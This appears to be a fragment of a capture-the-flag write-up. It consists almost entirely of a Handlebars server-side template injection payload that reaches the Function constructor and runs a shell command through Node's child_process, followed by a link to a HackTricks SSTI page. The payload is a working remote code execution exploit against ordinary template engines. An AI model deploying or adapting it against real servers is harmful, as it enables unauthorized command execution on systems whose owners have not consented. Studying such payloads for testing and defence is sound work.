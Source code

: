 pwd:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').spawn('pwd',[' ']).stdout.on('data', function (data) {console.log('own'+ data); });"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/2ac99d201eb4be11d17422917a126b72.png)

The solution is directly in
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection...

![img](media/84ed39e65f92f63d253fa6bad9a05f03.png)
